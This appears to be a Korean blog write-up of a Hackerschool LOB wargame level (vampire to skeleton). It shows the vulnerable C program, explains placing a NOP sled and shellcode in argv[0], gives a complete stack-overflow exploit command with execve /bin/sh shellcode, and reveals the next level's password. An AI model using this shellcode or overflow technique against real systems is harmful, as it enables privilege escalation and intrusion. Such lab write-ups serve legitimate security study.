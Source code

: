 ```yaml
---
date: '2022-10-29'
before : '2022-10-28'
after : '2022-10-30'
title: '시스템 해킹(25) : FTZ LOB LEVEL 10'
categories: ['C-SEC', 'KOR', 'webhack']
summary: ''
thumbnail: './C_Sec.jpg'
---
```



### 0. 들어가기 전에

LOB 레벨 11부터는 꽤 어려운(리버스 쉘 응용 등) 문제들이 나오는걸로 알고 있다. 혼자 열심히 해보고 안되면 빠르게 다른 분들의 포스트를 참고하려고 한다.


pwn을 완전 주력으로 삼을지는 아직 고민 중이다... 웹해킹도 하고있고 네트워크도 하고있으니 (암호학은 내년에 학교에서 정보보안 고급 암호학 한 번 들어보련다)


일단 다 해보고 맞는쪽으로 깊게 더 공부해보려고 한다. 아마 웹이나 네트워크가 되지 않을까?

### 1. Level 10 : Vampire -> Skeleton

코드를 확인해보자.

```

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter! 모든 argc를 초기화한다. 그럼 그냥 파일 이름에 담으면 될 것 같다.
        for(i=0; i<saved_argc; i++)
                memset(argv[i], 0, strlen(argv[i]));
}

```

여기서 확인할 수 있는건, 우리의 환경변수가 모두 초기화된다는 점이다. 잠깐 다시 한 번 코드의 실행 흐름을 짚어보자. 


1. 함수 프롤로그 실행
2. 함수 동작 실행 
- 우리에게 buffer 값을 입력받음
- 우리는 이를 이용해서 오버플로우로 ret값을 변환시킴
- 기타 다른 동작 실행
3. 이번에 새로 추가된 ultra hunter가 argv (버퍼 포함) 값들을 전부 초기화시킴.
4. 변조된 ret값의 주소로 함수가 회귀함



일단 나는 argv[0]까지 (파일 이름) 초기화된다는 점에 조금 의혹이 간다. argv[0]는 초기화되지 않는게 보통이니까, 일단 argv[0], 즉 파일 이름에 NOP SLED를 걸도록 하자.


그렇다면 할 일은 나왔다. ret의 값을 argv[0]으로 향하게 하고, argv[0]에 NOP SLED를 이용하여 쉘 코드를 넣으면 될 것 같다.


대충 확인해본 NOP SLED 중간값의 주소는 다음과 같았다.
```
0xbffffb28
```

그럼 이제 
```
./`python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"` `python -c 'print "A"*44 + "\x28\xfb\xff\xbf"'`
```

비밀번호 : shellcoder

 ---
## Source

- 해커스쿨 FTZ
- Me!
